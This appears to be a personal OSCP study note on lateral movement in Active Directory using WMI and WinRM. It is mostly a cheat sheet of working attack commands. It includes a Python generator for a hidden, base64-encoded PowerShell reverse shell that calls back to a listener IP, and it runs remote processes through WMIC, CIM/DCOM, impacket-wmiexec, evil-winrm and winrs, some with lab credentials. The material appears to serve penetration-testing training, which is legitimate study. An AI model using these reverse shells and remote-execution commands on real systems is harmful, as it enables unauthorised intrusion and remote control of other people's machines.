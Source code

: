 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/14. Active Directory Movement/1. WMI and WinRM/"}
---
```


--------
# WMI:
### WMI Theory
- Windows Management Instrumentation
- Capable of creating processes via the _Create_ mtehod from the Win32_process class.
- Communicates through Remote Procedure Calls (RPC) on port 135 for remote access, and higher ports (19152-65535) for session data.
- All spawned processes are run in session 0
- If ReturnValue == 0, the process has succeeded!

### WMI Remote Process with WMIC
- WMIC utility was recently deprecated, but is used to create processes on a remote target using an Administrator user.
```
wmic /node:<ip> /user:<adminuser> /password:<password> process call create "<process-to-create>"
```

### WMI Reverse Shell with Powershell
1. Generate reverse shell using python script:
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
````
2. Set up Powershell script and set $username, $password and $command:
```
$username = '<adminuser>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <ip> -Credential $credential -SessionOption $Options 
$command = '<generated-reverse-shell-payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

$session = New-Cimsession -ComputerName 172.16.189.10 -Credential $credential -SessionOption $Options 
```
3. Start netcat listener, encode and win!

### WMI Remote Shell with Impacket:
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.189.11
```

---------------
# WinRM:
### WinRM Theory
- Alternative method to WMI for remote management
- Microsoft version of the WS-Management protocol
- Exchanges XML messages over HTTP (port 5985) and HTTPS (port 5986)
- Implemented in numerous built-in utilities such as winrs
### WinRM Remote Shell with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```
- Or -H followed by NT-hash!!
### WinRM Remote Code Execution with WinRS
- Only works for domain users who are Administrators or part of "Remote Management Users".
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

### WinRM Reverse Shell with WinRS
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### WinRM Remote Shell with Powershell:
1. Create session:
```
$username = '<user>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <target-ip> -Credential $credential
```
2. Enter session:
```
Enter-PSSession 1
```

